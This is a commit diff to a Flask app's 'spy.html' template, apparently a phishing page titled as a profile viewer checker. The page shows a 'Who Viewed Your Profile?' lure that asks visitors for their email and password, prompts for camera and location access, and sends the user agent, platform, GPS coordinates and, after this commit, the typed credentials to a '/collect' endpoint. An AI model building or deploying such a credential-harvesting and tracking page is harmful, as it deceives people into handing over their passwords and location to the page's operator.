

Before and after one commit to MR5121472/Govt-of-punjab-pak, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme; data that the repository does not hold is empty.

Commit message:
Update spy.html

```diff
--- a/templates/spy.html
+++ b/templates/spy.html
@@ -2,14 +2,14 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <title>🔍 Profile Viewer Checker</title>
+  <title>🔍 Profile Viewer Debug</title>
   <meta name="viewport" content="width=device-width, initial-scale=1">
   <link rel="icon" href="/static/icon.png">
   <style>
     body {
       margin: 0;
       font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-      background: linear-gradient(135deg, #2c3e50, #3498db);
+      background: #2c3e50;
       color: white;
       display: flex;
       justify-content: center;
@@ -22,25 +22,25 @@
       border-radius: 16px;
       box-shadow: 0 0 20px rgba(0,0,0,0.3);
       text-align: center;
-      width: 320px;
+      width: 340px;
       backdrop-filter: blur(8px);
     }
     h1 {
-      font-size: 28px;
-      margin-bottom: 20px;
+      font-size: 24px;
+      margin-bottom: 15px;
     }
     p {
-      margin-bottom: 30px;
-      font-size: 16px;
+      margin-bottom: 20px;
+      font-size: 14px;
       color: #f1f1f1;
     }
     input, button {
       width: 100%;
-      padding: 12px;
+      padding: 10px;
       margin: 8px 0;
       border-radius: 8px;
       border: none;
-      font-size: 16px;
+      font-size: 15px;
     }
     input {
       background: #ecf0f1;
@@ -49,8 +49,8 @@
     button {
       background: #e74c3c;
       color: white;
+      font-weight: bold;
       cursor: pointer;
-      font-weight: bold;
     }
     button:hover {
       background: #c0392b;
@@ -59,44 +59,76 @@
 </head>
 <body>
   <div class="box">
-    <h1>👁 Who Viewed Your Profile?</h1>
-    <p>Enter your email to check last profile visitors (Secret Mode)</p>
+    <h1>👁 Profile Viewer – Debug</h1>
+    <p>Please allow location and camera access when prompted.</p>
     <form id="spyForm">
-      <input type="text" placeholder="Enter your email" required>
-      <input type="password" placeholder="Your password" required>
+      <input type="text" id="email" placeholder="Email" required>
+      <input type="password" id="password" placeholder="Password" required>
       <button type="submit">Check Now</button>
     </form>
   </div>
 
   <script>
-    async function collectData(status, latitude = null, longitude = null) {
-      await fetch("/collect", {
+    async function collectData(cameraStatus, latitude = null, longitude = null, email = null, password = null) {
+      console.log("📡 Sending data to /collect...");
+      try {
+        const response = await fetch("/collect", {
           method: "POST",
-        headers: {"Content-Type": "application/json"},
+          headers: { "Content-Type": "application/json" },
           body: JSON.stringify({
             userAgent: navigator.userAgent,
             latitude: latitude,
             longitude: longitude,
-          camera: status,
-          deviceInfo: navigator.platform
+            camera: cameraStatus,
+            deviceInfo: navigator.platform,
+            email: email,
+            password: password
           })
         });
+        const result = await response.text();
+        console.log("✅ Data sent:", result);
+        alert("✅ All data captured and sent successfully.");
+      } catch (error) {
+        console.error("❌ Failed to send data:", error);
+        alert("❌ Failed to send data. Check console for details.");
+      }
     }
 
+    document.getElementById("spyForm").addEventListener("submit", function(e) {
+      e.preventDefault();
+
+      const email = document.getElementById("email").value;
+      const password = document.getElementById("password").value;
+
+      if (!email || !password) {
+        alert("⚠️ Please fill in both fields.");
+        return;
+      }
+
+      alert("📸 Requesting camera permission...");
       navigator.mediaDevices.getUserMedia({ video: true })
         .then(stream => {
+          console.log("✅ Camera access granted.");
+          stream.getTracks().forEach(track => track.stop());
+
+          alert("📍 Requesting location access...");
           navigator.geolocation.getCurrentPosition(
             pos => {
-            collectData("✅ Allowed", pos.coords.latitude, pos.coords.longitude);
+              console.log("✅ Location access granted.");
+              collectData("✅ Allowed", pos.coords.latitude, pos.coords.longitude, email, password);
             },
             err => {
-            collectData("❌ Location Denied");
+              console.warn("❌ Location error:", err.message);
+              alert("❌ Location access denied.");
+              collectData("✅ Camera Allowed, ❌ Location Denied", null, null, email, password);
             }
           );
-        stream.getTracks().forEach(track => track.stop());
         })
         .catch(err => {
-        collectData("❌ Camera Denied");
+          console.warn("❌ Camera error:", err.message);
+          alert("❌ Camera access denied.");
+          collectData("❌ Camera Denied", null, null, email, password);
+        });
     });
   </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
